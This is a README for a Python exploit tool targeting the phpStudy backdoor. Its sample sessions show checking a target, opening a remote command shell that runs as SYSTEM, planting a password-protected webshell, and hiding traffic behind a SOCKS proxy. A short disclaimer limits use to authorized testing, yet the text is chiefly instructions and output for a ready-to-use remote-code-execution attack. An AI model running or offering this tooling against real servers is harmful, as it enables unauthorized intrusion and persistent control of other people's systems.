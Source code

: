 # phpstudy-backdoor-rce
phpstudy_rce exp &amp; poc
> phpstudy backdoor rce exp &amp; poc

- usage:
```python
python phpstudy_rce.py                                   
usage: python phpstudy_rce.py -u [url] --shell

PHPstudy RCE POC & EXP

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定目标url地址
  --shell               利用漏洞并获取命令行
  --webshell            利用漏洞并上传webshell
  -p PROXY, --proxy PROXY
                        设置代理，如socks5://127.0.0.1:7890

```

- example:
```python
# poc
python phpstudy_rce.py -u http://xxxx/           
[✅]存在漏洞

# exp - 获取shell
python phpstudy_rce.py -u http://xxxx/ --shell       
[✅]存在漏洞
cmd>>> whoami
nt authority\system
cmd>>> net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed with one or more errors.

cmd>>> exit

# exp - 写入webshell
python phpstudy_rce.py -u http://xxxx/ --webshell
[✅]存在漏洞
[✅]获取到网站路径 C:/phpStudy/WWW/
[✅]写入webshell成功 http://xxxx/conf.php 连接密码 x

# proxy
python phpstudy_rce.py -u http://xxxx/ -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --shell -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --webshell -p socks5://127.0.0.1:7890
```

- 参考链接
  - https://github.com/theLSA/phpstudy-backdoor-rce
  - https://blog.csdn.net/qq_45521281/article/details/105926151
  
- 使用须知
  - 本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。
  - 如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果。
